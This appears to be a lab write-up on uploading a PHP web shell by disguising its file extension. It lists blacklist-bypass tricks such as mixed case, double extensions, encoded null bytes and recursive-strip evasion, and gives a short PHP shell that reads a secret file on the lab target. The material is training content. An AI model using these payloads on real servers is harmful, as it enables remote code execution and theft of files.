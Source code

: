 # Web shell upload via obfuscated file extension
## Notes
```
Obfuscating file extensions

Even the most exhaustive blacklists can potentially be bypassed using classic obfuscation techniques. Let's say the validation code is case sensitive and fails to recognize that exploit.pHp is in fact a .php file. If the code that subsequently maps the file extension to a MIME type is not case sensitive, this discrepancy allows you to sneak malicious PHP files past validation that may eventually be executed by the server.

You can also achieve similar results using the following techniques:

    Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or JPG image: exploit.php.jpg
    Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: exploit.php.
    Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: exploit%2Ephp
    Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: exploit.asp;.jpg or exploit.asp%00.jpg
    Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like xC0 x2E, xC4 xAE or xC0 xAE may be translated to x2E if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.

Other defenses involve stripping or replacing dangerous extensions to prevent the file from being executed. If this transformation isn't applied recursively, you can position the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider what happens if you strip .php from the following filename:

exploit.p.phphp 
```
## File Contents
```php
<?php
system("cat /home/carlos/secret");
?>
```

## Uploading
![image](https://user-images.githubusercontent.com/60841283/150632779-6ed0794d-242e-4e4e-9b40-7b8c54d318bf.png)

![image](https://user-images.githubusercontent.com/60841283/150632798-d69b3b86-4b38-45e7-ad79-64793d17ca70.png)

Encoded null byte
> https://www.whitehatsec.com/glossary/content/null-byte-injection

```text
Most web applications today are developed using higher-level languages such as PHP, ASP, Perl, and Java. However, these web applications at some point require processing of high-level code at the system level and this process is usually accomplished using C/C++ functions. The diverse nature of these dependent technologies has resulted in the Null Byte Injection (aka Null Byte Poisoning) attack.
```
![image](https://user-images.githubusercontent.com/60841283/150633212-503ed1a0-a0c8-4f3b-8556-9a2d8589364b.png)

![image](https://user-images.githubusercontent.com/60841283/150633224-ba4d699f-9e7e-4c3d-93b7-234fba452023.png)

